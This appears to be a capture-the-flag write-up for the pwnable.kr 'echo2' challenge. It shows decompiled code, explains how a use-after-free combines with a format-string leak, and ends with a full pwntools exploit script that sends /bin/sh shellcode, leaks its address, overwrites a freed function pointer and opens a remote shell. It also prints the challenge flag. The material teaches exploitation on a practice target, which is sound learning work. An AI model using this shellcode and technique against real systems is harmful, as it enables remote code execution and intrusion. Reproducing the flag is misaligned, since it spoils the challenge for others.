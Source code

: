 # echo2

## Description

echo2 - 50 pt

> Pwn this echo service. <br><br>
> download : http://pwnable.kr/bin/echo2 <br><br>
> Running at : nc pwnable.kr 9011


## Solution

### Understanding the binary

Just like in `echo1`, again we are given a 64 bit ELF executable, with no security features enabled.

Let's take a look at the decompiled code in IDA:

**main:**
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _QWORD *v3; // rax
  unsigned int i; // [rsp+Ch] [rbp-24h] BYREF
  _QWORD v6[4]; // [rsp+10h] [rbp-20h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  o = malloc(0x28uLL);
  *((_QWORD *)o + 3) = greetings;
  *((_QWORD *)o + 4) = byebye;
  printf("hey, what's your name? : ");
  __isoc99_scanf("%24s", v6);
  v3 = o;
  *(_QWORD *)o = v6[0];
  v3[1] = v6[1];
  v3[2] = v6[2];
  id = v6[0];
  getchar();
  func[0] = (__int64)echo1;
  qword_602088 = (__int64)echo2;
  qword_602090 = (__int64)echo3;
  for ( i = 0; i != 121; i = getchar() )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        puts("\n- select echo type -");
        puts("- 1. : BOF echo");
        puts("- 2. : FSB echo");
        puts("- 3. : UAF echo");
        puts("- 4. : exit");
        printf("> ");
        __isoc99_scanf("%d", &i);
        getchar();
        if ( i > 3 )
          break;
        ((void (*)(void))func[i - 1])();
      }
      if ( i == 4 )
        break;
      puts("invalid menu");
    }
    cleanup();
    printf("Are you sure you want to exit? (y/n)");
  }
  puts("bye");
  return 0;
}
```

**echo1:**
```c
int echo1()
{
  return puts("not supported");
}
```

**echo2:**
```c
__int64 echo2()
{
  char format[32]; // [rsp+0h] [rbp-20h] BYREF

  (*((void (__fastcall **)(void *))o + 3))(o);
  get_input(format, 32LL);
  printf(format);
  (*((void (__fastcall **)(void *))o + 4))(o);
  return 0LL;
}
```

**echo3:**
```c
__int64 echo3()
{
  char *s; // [rsp+8h] [rbp-8h]

  (*((void (__fastcall **)(void *))o + 3))(o);
  s = (char *)malloc(0x20uLL);
  get_input(s, 32LL);
  puts(s);
  free(s);
  (*((void (__fastcall **)(void *))o + 4))(o);
  return 0LL;
}
```

**cleanup:**
```c
void cleanup()
{
  free(o);
}
```

Again, byebye and greetings are simply printing strings, and get_input is a wrapper for fgets. Basically, this program is almost the same as `echo1`, but this time the first echo function is not supported and the other two are.

### Exploit

When the `4`th option is pressed - for exiting the program - the `cleanup` function is called, which frees the memory allocated for the `o` object. However, if we choose then press `n` (for not sure) then we get a use after free vulnerability, because the `o` object is used in `echo2` to call the `greetings` function. 

So, if we can somehow allocate memory using `malloc`, with an appropriate size, and then write there - we'll be able to overwrite the `greetings` function pointer, and call it to get a shell.

There are two main challenges:

 * We need to save shellcode that calls `/bin/sh` somewhere in the memory - and leak that addres

 * We need to perform the malloc and overwrite the `greetings` function pointer.

The second challenge is pretty easy, because we can simply use the `UAF echo` option to allocate memory and write there.

For the first challenge - we can simply place the shellcode at beggining of the program, when we are asked for our name - and then leak the address using `FSB echo`.

### Exploit code

```python
from pwn import *

elf = context.binary = ELF('./echo2')
conn = remote('pwnable.kr', 9011)

# ---------- give shellcode as name ---------- #

payload = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e' + \
          b'\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
conn.sendline(payload)

# ---------- leak address of name ---------- #

payload = b'2\n' # 'FSB echo'
payload += b'%10$p' # leak address
conn.sendline(payload)

name_addr = int(conn.recvline_startswith(b'0x').strip(), 16) - 0x20 # add offset to leak

# ---------- use after free ---------- #

payload = b'4\n' # 'exit'
payload += b'n\n' # 'no'
payload += b'3\n' # 'UAF echo'
payload += b'A' * 8 * 3 # padding
payload += p64(name_addr) # overwrite 'greetings'
conn.sendline(payload)

# ---------- get shell ---------- #

conn.send(b'2\n')
conn.interactive()
```

```
fun_with_UAF_and_FSB :)
```
